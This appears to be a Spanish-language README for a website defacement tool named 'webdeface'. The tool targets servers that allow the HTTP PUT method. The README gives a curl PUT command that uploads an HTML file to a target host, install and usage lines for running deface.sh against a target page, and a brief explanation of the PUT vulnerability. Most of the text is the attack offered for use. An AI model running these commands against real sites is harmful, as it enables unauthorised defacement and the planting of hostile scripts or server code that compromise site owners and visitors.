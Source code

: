 ## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index2.htm" "https://IP/index2.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.



http://www.hackingyseguridad.com/
